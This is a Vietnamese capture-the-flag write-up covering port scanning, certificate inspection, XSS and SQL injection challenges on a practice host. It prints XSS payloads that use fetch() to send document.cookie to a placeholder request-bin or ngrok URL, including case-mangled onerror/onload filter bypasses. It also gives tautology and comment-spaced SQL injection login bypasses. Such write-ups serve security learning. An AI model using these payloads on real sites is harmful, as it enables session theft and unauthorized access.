 ### Scan me if you can 
Dùng nmap quét từ port 8100 - 9100

![image](https://user-images.githubusercontent.com/50044415/139645457-3d63d04a-087b-4e58-85f1-9fd380fd4e21.png)

Có port 9003 và 9004 mở, ta thử nc với port 9004 thì có flag
![image](https://user-images.githubusercontent.com/50044415/139645537-b828253d-18e0-462e-afc9-4f2f7f728608.png)

Flag: Flag{Every-Header-Have-It-Own-Meaning}

### Secure HTTP
Đề bài gợi ý sử dụng HTTPS ở port 9004, vào browser ta truy cập: https://network-insecure.letspentest.org:9004

Xem certificate của trang 
![image](https://user-images.githubusercontent.com/50044415/139645862-05e3d6a0-9728-4fd5-9c04-13cd29c046cf.png)

Flag: Flag{This-Is-A-Trusted-One}

## Web Exploitation
### XSS
Bài này bot có vấn đề nên mình mất khá nhiều thời gian tuy dễ. Payload: `<script>fetch(<request bin url hoặc ngrok url> + '?c=' + document.cookie)</script>`

Flag: FLAG{10c802c9c6afc26769764b5b986d708a}

### XSS Filter
Có vẻ như bài này bị filter script nên mình dùng các payload sau: (vì bot có vấn đề nên mình không chắc payload nào hoạt động)
```
<img src=1 onerror=fetch(<request bin url hoặc ngrok url> + '?c=' + document.cookie)>
<img src=1 OnErrOr=fetch(<request bin url hoặc ngrok url> + '?c=' + document.cookie)>
<img src=1 onload=fetch(<request bin url hoặc ngrok url> + '?c=' + document.cookie)>
<img src=1 OnLOaD=fetch(<request bin url hoặc ngrok url> + '?c=' + document.cookie)>
```

Flag: FLAG{5b7eca261028a4042fde4e3f45dec294} xss filter

###  Ét Quy Eo 
SQL injection cơ bản
`username: 1' or true -- -`
`password: 1' or true -- -`

Sau đó ta nhận được chuỗi base64, decode thì ra flag

Flag: Flag{Fr33_Styl3}

###  SQL Filter 
Bài này đề filter dấu space, dấu ; và or.

Ta dùng payload sau: `root'/**/OR/**/true/**/--/**/`
